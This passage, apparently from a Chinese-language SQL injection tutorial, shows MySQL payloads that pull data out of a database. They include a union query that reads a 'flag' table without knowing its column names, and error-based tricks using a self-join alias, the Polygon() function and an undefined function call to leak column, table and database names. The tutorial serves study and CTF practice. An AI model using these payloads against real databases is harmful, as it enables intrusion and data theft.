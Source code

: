 `union (select 1,2,c from (select 1,2 c union select * from flag)b) limit 1,1`
![img](https://ws2.sinaimg.cn/large/006tNc79ly1fikgrv5w7jj31fs08qdh0.jpg)

或者
`union (select 1,2,c from (select 1,2 as c union select * from flag) as b) limit 1,1`
![img](https://ws4.sinaimg.cn/large/006tNc79ly1fikgsz6hu2j31fm07ewfo.jpg)

### 1.10.2 变量

需要一个请求两个注入

![img](https://ws2.sinaimg.cn/large/006tNc79ly1fikgzmztnsj30xi0bi3zx.jpg)

## 1.11 可报错时爆表名、字段名、库名

### 1.11.1 字段名

上文介绍可以使用无列明注入，但是如果再进行限制,不允许使用union 该怎么破呢？

```
select * from admin where id=1 and (select * from (select * from admin as a join admin as b) as c)
```

![img](https://ws1.sinaimg.cn/large/006tNc79ly1filetl0mrwj316203cq3l.jpg)

把当前表第一个字段成功爆出来了。

这个的原理就是在使用别名的时候，表中不能出现相同的字段名，于是我们就利用join把表扩充成两份，在最后别名c的时候 查询到重复字段，就成功报错。

同时，可以利用using爆其他字段：

![img](https://ws4.sinaimg.cn/large/006tNc79ly1filexqgc83j31ek0520ud.jpg)

### 1.11.2 表名

翻阅mysql的文档发现了一个非常好玩的函数

Polygon(ls1, ls2, ...)

Polygon从多个LineString或WKB LineString参数 构造一个值 。如果任何参数不表示LinearRing（也就是说，不是一个封闭和简单的LineString），返回值就是NULL

如果传参不是linestring的话，就会爆错，而当如果我们传入的是存在的字段的话，就会爆出已知库、表、列。
![img](https://ws3.sinaimg.cn/large/006tNc79ly1filf18zzrrj312w05a3zq.jpg)

### 1.11.3 库名

上面的方法已经可以爆出库名了，提供另一个方法

```
select * from admin where id =1-a()
```

![img](https://ws4.sinaimg.cn/large/006tNc79ly1filf3hrnaaj30kq03cdg6.jpg)
